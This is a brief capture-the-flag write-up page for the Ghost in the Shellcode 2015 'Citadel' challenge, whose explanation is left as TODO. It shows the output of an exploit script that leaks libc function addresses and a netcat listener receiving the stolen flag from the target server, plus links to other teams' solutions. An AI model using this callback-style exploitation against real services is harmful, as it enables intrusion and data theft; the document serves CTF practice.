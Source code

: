 # Ghost in the Shellcode 2015 teaser: Citadel

**Description:**

> Steal the key!
>
> [File](citadel-4ee854f5f99e4c62924059a2838cd6147f42d54f9e743b4dbe873aa10b850a32) running at citadel.2015.ghostintheshellcode.com:5060

## Write-up

(TODO)

Locally, run `solve.py` after changing the `server_ip` and `server_port` variables:

```bash
$ python solve.py
[+] Opening connection to citadel.2015.ghostintheshellcode.com on port 5060: OK
memcmp at: 0x00007faa50223ae0
system at: 0x00007faa50109530
Flag should be on its way!
[*] Closed connection to citadel.2015.ghostintheshellcode.com port 5060
```

But before that, start listening on the IP/port you specified in `solve.py`. When `solve.py` runs, the flag is sent there.

```bash
$ nc -vlp 9001
listening on [any] 9001 ...
connect to [13.33.33.37] from ec2-54-83-45-212.compute-1.amazonaws.com [54.83.45.212] 51867
key{Should have used boost::format}
```

The flag is `key{Should have used boost::format}`.

## Other write-ups and resources

* [Write-up by team gn00bz](http://gnoobz.com/gits-teaser-2015-ctf-citadel-writeup.html)
* [Exploit by team gn00bz](solve.py)
* <http://www.clevcode.org/ghost-in-the-shellcode-2015-teaser-citadel-solution/>
* <http://pastebin.com/MS3KG1um>
